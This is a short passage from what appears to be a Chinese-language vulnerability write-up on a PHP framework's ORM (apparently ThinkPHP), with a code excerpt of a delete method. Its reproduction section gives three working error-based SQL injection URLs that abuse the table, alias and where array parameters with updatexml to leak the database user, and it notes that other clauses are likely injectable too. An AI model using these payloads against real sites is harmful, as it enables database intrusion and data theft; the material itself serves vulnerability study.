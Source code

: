             if (false === $this->_before_delete($options)) {
                return false;
            }
            $result = $this->db->delete($options);
            if (false !== $result && is_numeric($result)) {
                $data = array();
                if (isset($pkValue)) {
                    $data[$pk] = $pkValue;
                }

                $this->_after_delete($data, $options);
            }
            // 返回删除记录个数
            return $result;

### 漏洞复现

针对`select()` 和`find()`方法
,有很多地方可注，这里主要列举三个`table`，`alias`，`where`，更多还请自行跟踪一下`parseSql`的各个`parseXXX`方法，目测都是可行的，比如`having`,`group`等。

    table：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    alias：http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

    where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
